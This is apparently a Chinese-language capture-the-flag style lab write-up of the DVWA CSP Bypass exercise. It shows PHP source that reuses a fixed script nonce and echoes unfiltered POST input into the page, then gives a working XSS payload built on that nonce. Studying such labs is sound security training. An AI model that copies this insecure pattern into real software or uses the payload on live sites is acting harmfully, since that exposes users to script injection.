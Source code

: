 ### 源代码

```php
<?php

$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

header($headerCSP);

// Disable XSS protections so that inline alert boxes will work
header ("X-XSS-Protection: 0");

# <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>Whatever you enter here gets dropped directly into the page, see if you can get an alert box to pop up.</p>
    <input size="50" type="text" name="include" value="" id="include" />
    <input type="submit" value="Include" />
</form>
';
```



### 代码分析

源码中nonce参数无任何过滤，注入时直接令 nonce 为设定好的值即可。



### 漏洞利用

源码里注释居然就有一个，试一下，成功：

![image-20220828225356899](./Lab10_CSP_Bypass.assets/image-20220828225356899.png)



试一下改改内容，成功

```html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=" > alert('TEST')</script>
```

![image-20220828225525593](./Lab10_CSP_Bypass.assets/image-20220828225525593.png)

